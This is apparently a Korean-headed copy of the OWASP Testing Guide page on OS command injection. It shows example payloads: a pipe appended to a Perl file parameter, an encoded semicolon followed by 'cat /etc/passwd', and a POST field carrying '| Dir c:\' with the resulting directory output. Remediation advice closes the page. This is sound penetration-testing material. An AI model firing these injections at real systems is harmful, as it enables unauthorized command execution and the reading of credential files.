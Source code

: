============================================================================================
OTG-INPVAL-013 (Command Injection 침투 테스트)
============================================================================================

|

개요
============================================================================================

This article describes how to test an application for OS command injection.
The tester will try to inject an OS command through an HTTP
request to the application.
OS command injection is a technique used via a web interface in
order to execute OS commands on a web server. The user supplies
operating system commands through a web interface in order to execute
OS commands. Any web interface that is not properly sanitized 
is subject to this exploit. With the ability to execute OS commands,
the user can upload malicious programs or even obtain passwords.
OS command injection is preventable when security is emphasized
during the design and development of applications.

|

테스트 방법
============================================================================================

When viewing a file in a web application, the file name is often shown
in the URL. Perl allows piping data from a process into an open statement.
The user can simply append the Pipe symbol “|” onto the end
of the file name.

Example URL before alteration:

.. code-block:: html

    http://sensitive/cgi-bin/userData.pl?doc=user1.txt

Example URL modified:

.. code-block:: html

    http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|

This will execute the command “/bin/ls”.
Appending a semicolon to the end of a URL for a .PHP page followed
by an operating system command, will execute the command. %3B is
url encoded and decodes to semicolon

**예제**

.. code-block:: html
    
    http://sensitive/something.php?dir=%3Bcat%20/etc/passwd

**예제**

Consider the case of an application that contains a set of documents
that you can browse from the Internet. If you fire up WebScarab, you
can obtain a POST HTTP like the following:
In this post request, we notice how the application retrieves the public
documentation. Now we can test if it is possible to add an operating
system command to inject in the POST HTTP. Try the following:


.. code-block:: html
    
    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it;
    rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,-
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E-
    34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33
    
    Doc=Doc1.pdf

If the application doesn’t validate the request, we can obtain the following
result:

.. code-block:: html

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it;
    rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/
    html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E-
    34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+|+Dir c:\

In this case, we have successfully performed an OS injection attack.

.. code-block:: html

    Exec Results for ‘cmd.exe /c type “C:\httpd\public\
    doc\”Doc=Doc1.pdf+|+Dir c:\’
    Output...
    Il volume nell’unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
     Doc
     11/11/2006 17:25
     Documents and Settings
     25/10/2006 03:11
     I386
     14/11/2006 18:51
     h4ck3r
     30/09/2005 21:40 25,934
     OWASP1.JPG
     03/11/2006 18:29
     Prog
     18/11/2006 11:20
     Program Files
     16/11/2006 21:12
     Software
     24/10/2006 18:25
     Setup
     24/10/2006 23:37
     Technologies
     18/11/2006 11:14
     3 File 32,496 byte
     13 Directory 6,921,269,248 byte disponibili
     Return code: 0

|

Tools
============================================================================================

• OWASP WebScarab
• OWASP WebGoat

|

References
============================================================================================

White papers
---------------------------------------------------------------------------------------

- http://www.securityfocus.com/infocus/1709


Remediation
============================================================================================

Sanitization
--------------------------------------------------------------------------------------

The URL and form data needs to be sanitized for invalid characters.
A “blacklist” of characters is an option but it may be difficult
to think of all of the characters to validate against. Also there
may be some that were not discovered as of yet. A “white list”
containing only allowable characters should be created to validate
the user input. Characters that were missed, as well as undiscovered
threats, should be eliminated by this list.
Permissions
The web application and its components should be running under
strict permissions that do not allow operating system command
execution. Try to verify all these informations to test from a Gray
Box point of view